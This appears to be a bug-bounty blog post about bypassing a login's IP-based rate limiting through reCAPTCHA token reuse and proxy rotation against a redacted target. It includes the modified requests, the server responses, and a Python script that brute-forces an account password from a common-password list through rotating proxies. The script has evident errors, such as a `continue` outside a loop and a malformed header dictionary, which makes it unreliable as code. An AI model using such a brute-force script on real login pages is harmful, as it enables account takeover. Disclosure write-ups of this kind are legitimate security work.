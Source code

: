 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: Ip Rotation Bypass
description: Ip rotation to bypass ip based check
image: https://i.ibb.co/xXt8WMK/rotate.jpg
optimized_image: https://i.ibb.co/xXt8WMK/rotate.jpg
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## Bypassing Ip based protection for login using simple python script

Hey guys I'm back with my another finding and also another one which does not implement google recaptcha properly and made this attack possible ...will see how.
We will say this traget as "private.com" through out the article. So let's jump into it !

![Alt Text](https://media.giphy.com/media/dLolp8dtrYCJi/giphy.gif)

Like always whenever I hunt on any program I start with the main web app and check out their stuffs there...well why not ?
So I jumoed to login created an accout and started to  check if web app implements rate limit or not ...
Well web app says that it implements google recaptcha so I thought ..well I try to remove header from the request and removed that recaptcha part from json request..like

- Original json request:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"}
```

- To:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?",  "recaptchaVersion": "v3"}
```

But no luck 

- Response:
```
{"error":"recaptchaToken not found"}
```
Next thing I checked it web app reuses it's recaptchas?
And well yes ...now response was like 

- Response:
```
{"error":"Incorrect email/Password"}
```

Now the next thing remains is to check it we can bruteforce this ...Well after 3 ~ 4 tried including the above requests so total like ~ 7 requests I got response like 

```
{"error":"Something went wrong, Ip 47.1.X.x" is added to blacklist try again later"}
```
From this point I thought well it blocked my Ip what about other ?
So I tried to login with my phone data with random password and correct email and got response as

```
{"error":"Incorrect email/Password"}
```
So now I know what to do ;)
![Alt Text](https://media.giphy.com/media/BlWF2vzpIPB0A/giphy.gif)

- Now I had two options either use:
  - IpRotate which is cool extension which uses aws api gatways and proxy your traffic with unique ips 
  - Create a script (as most time internal teams would not like to install a extension for a specific bug)

So I made the following simple python3 script which proxies your every login attempt through different ips 

```python

from proxy_requests.proxy_requests import ProxyRequests
import Queue
import sys

q = Queue.Queue()

passwordList = open('1k_most_common.txt','r').read().splitlines()
total = len(passwordList)


def attack(url):
   try :
       Pass = q.get()
       r = ProxyRequests(url)
       r.set_headers({"Connection": "close", 
                      "Accept": "application/json, text/plain, */*", 
                      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36", 
                      "Content-Type": "application/json;charset=UTF-8", 
                      "Origin": "https://private.com", 
                      "Sec-Fetch-Site": "same-site", 
                      "Sec-Fetch-Mode": "cors", 
                      "Sec-Fetch-Dest": "empty", 
                      "Referer": "https://private.com/login", 
                      " Accept-Encoding": "gzip, deflate", 
                      "Accept-Language": "en-US,en;q=0.9",
                      "Cookie " : "__cfduid": "dc7914404b4b8af17d2b615325ec94cbf1596976181", "connect.sid": "s%3Aqcg54CJ2isBko1u1YNhaPG0bhX9R9Wmi.8XeOBqwBtDjReQFjOwpK8s6AnRPVO4BJfghJClZEcio"}

       r.post_with_headers({"email": "anyuser@gmail.com", "password": "" + str(Pass) + "", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"})

       if r.get_status_code() == 401 or r.get_status_code() == 429:
                     continue
       if r.get_status_code() == 302:
                     print ("[!] Password Found !: " + str(Pass))
    except Queue.Empty :
	sys.exit()
   
def push_pass():

   for password in passwordList :
        q.put(password.strip())

def main():
   push_pass()
   url = "https://api.private.com/api/v2/login"
   for i in range(total):
       attack(url)
        

if '__name__' == '__main__': 
    main()
```
I didn't made it fast which I could or you could make a simple bash script with calls curl and a proxy list via which curl proxies your traffic...well I just had to show that even after like 12 - 20 requests web app is still allowing me for another login attempt


- Reported the bug 
Accepted and bounty awarded $_$

- Takeaway
  - Trying new thing helps

Hope you guys learned seomthing new from this post :)
See you next time !

![Alt Text](https://media.giphy.com/media/KEkCtOMhkdze5azTMa/giphy.gif)
